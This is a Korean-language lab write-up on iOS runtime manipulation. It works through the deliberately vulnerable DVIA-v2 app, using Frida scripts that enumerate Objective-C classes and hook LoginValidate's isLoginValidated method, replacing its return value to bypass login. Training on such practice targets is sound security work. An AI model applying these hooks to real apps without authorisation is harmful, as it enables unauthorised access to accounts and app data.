


# 런타임 조작

Runtime Manipulation
- 앱이 실행될 때 흐름 조작, 정보 유출 등이 가능한 취약점 
- 런타임 조작을 사용하여 인스턴스 변수를 수정하고, 로컬 로그인 검사를 우회하고, 무차별 강제 핀 코드(Brute Force)를  사용 가능

- 탈옥 탐지 우회 시 사용한 JS Injection 도 런타임 조작의 일부. 즉 흐름 조작은 → 런타임 조작

---

### 1. 인증 우회 실습 - 1 (Object-C 우회)
#### Step 1. 로직 파악



임의 ID/PW 입력 후 Login Method 1 호출 시 인증 실패 확인

---

#### Step 2. 모든 클래스 정보 찾기 코드 작성 & 실행

```js
if(ObjC.available){ // ObjC 라는 문법 사용 및 실행이 가능한지 확인
    for(var classname in ObjC.classes)
        console.log(classname) // 모든 클래스 출력
} 
```

1. PC 에서 Frida를 ios_py3 이름의 아나콘다 가상 환경에 설치하였으므로 가상환경 진입 : `conda activate ios_py3`
2. 타겟 모듈 실행 중인지 확인 `frida-ps -Ua`
3. 코드 실행(출력 값 중 대소문자 구분 없이 Login 관련된 클래스만 조회) : `frida -U -l hook.js DVIA-v2 | findstr /i "Login"`



`LoginValidate` 이라는 로그인 관련 클래스 출력 확인

---

#### Step 3. 찾은 Login 관련 클래스 메서드 찾기 코드 작성 & 실행

```js
if(ObjC.avaliable){
    var classname = "LoginValidate"
    var methods = ObjC.classes[classname].$ownMethods
    //console.log(methods)
    for(var i=0 ; i<methods.length ; i++){
        console.log(methods[i])
    }
}
```
1. PC 에서 Frida를 ios_py3 이름의 아나콘다 가상 환경에 설치하였으므로 가상환경 진입 : `conda activate ios_py3`
2. 타겟 모듈 실행 중인지 확인 `frida-ps -Ua`
3. 코드 실행(대소문자 구분 없이 Login 관련된 클래스 조회) : `frida -U -l hook.js DVIA-v2`

---

#### Step 4. 찾은 메서드 반환 값 확인 코드 작성 & 실행

```js
if(ObjC.available){
	var classname = "LoginValidate"
	var methodname = "isLoginValidated"
	var hook = ObjC.classes[classname][methodname]
	
	Interceptor.attach(hook.implementation,{
		onLeave:function(retval){
            console.log("Runtime 조작")
			console.log("[+] 클래스 명: " + classname)
			console.log("[+] 메소드 명: " + methodname)
			console.log("[+] 반환 값 타입: " + hook.returnType)
			console.log("[+] 반환 값: " + retval)
		}
	})
}
```

1. PC 에서 Frida를 ios_py3 이름의 아나콘다 가상 환경에 설치하였으므로 가상환경 진입 : `conda activate ios_py3`
2. 타겟 모듈 실행 중인지 확인 `frida-ps -Ua`
3. 코드 실행(대소문자 구분 없이 Login 관련된 클래스 조회) : `frida -U -l hook.js DVIA-v2"`

boolean 타입이고 현재 반환 값은 0, 해당 값을 1로 조작 시 로그인 우회가 가능

#### Step 5. 변조 코드 작성 & 실행 및 우회 성공 확인
```js
if(ObjC.available){
	var classname = "LoginValidate"
	var methodname = "isLoginValidated"
	var hook = ObjC.classes[classname][methodname]
	
	Interceptor.attach(hook.implementation,{
		onLeave:function(retval){
			console.log("Runtime 조작")
			console.log("[+] 클래스 명: " + classname)
			console.log("[+] 메소드 명: " + methodname)
			console.log("[+] 반환 값 타입: " + hook.returnType)
			console.log("[+] 반환 값: " + retval)
			
			var new_retval = ptr("0x1")
			retval.replace(new_retval)
		}
	})
}
```

1. PC 에서 Frida를 ios_py3 이름의 아나콘다 가상 환경에 설치하였으므로 가상환경 진입 : `conda activate ios_py3`
2. 타겟 모듈 실행 중인지 확인 `frida-ps -Ua`
3. 코드 실행(대소문자 구분 없이 Login 관련된 클래스 조회) : `frida -U -l hook.js DVIA-v2"`

---

# 2. 인증 우회 실습 - 2 